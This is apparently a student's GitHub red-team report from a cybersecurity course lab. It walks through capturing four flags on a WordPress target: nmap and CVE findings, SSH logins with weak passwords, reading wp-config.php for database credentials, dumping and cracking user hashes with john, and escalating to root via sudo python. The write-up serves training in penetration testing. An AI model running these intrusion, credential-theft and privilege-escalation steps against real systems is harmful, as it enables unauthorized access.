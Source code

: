 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X


The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)

<br>

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
   - **Exploit Used**
   
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag%201.png)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
     - Command: ssh michael@192.168.1.110 
     - The username and password for Michael's account is identical: michael
     - Command: locate *flag*
     - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
   - **Exploit Used**
     - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
     - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

   - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - DB_NAME: wordpress
    - DB_USER: root
    - DB_PASSWORD: R@v3nSecurity
    - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:
    - Flag 3 found in wp_posts.
    - Password hashes found in wp_users.
    - Command: show databases;
    - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
<br>

   - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
<br>

   - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

<br>

   - Screenshot of Wordpress user password hashes:
    - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)

<br>

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
     - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
     - Cracking the hashed password using john.
     - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
     - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

<br>

   - Secure a user shell as the user whose password you cracked.
    - Command: ssh steven@192.168.1.110
    - Password: pink84
    - Escalating to root:
    - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
   
   - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)

<br>

   - Search for the root directory for Flag 4.
    - Command: cd /root/
    - Command: ls
    - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)

